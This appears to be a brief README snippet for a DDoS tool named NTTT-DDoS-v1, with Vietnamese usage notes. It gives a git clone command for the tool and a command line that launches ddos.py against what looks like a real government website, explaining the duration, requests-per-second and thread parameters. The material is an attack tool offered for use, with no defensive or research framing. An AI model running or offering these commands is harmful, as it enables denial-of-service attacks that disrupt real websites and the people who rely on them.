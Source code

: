 
git clone https://github.com/KAR13MA09/NTTT-DDoS-v1
#
python ddos.py https://chinhphu.com/ 30 60 5
- Trong Đó 30 Là Thời Gian DDoS | 60 Là Requests/s | 5 Là Thread
##
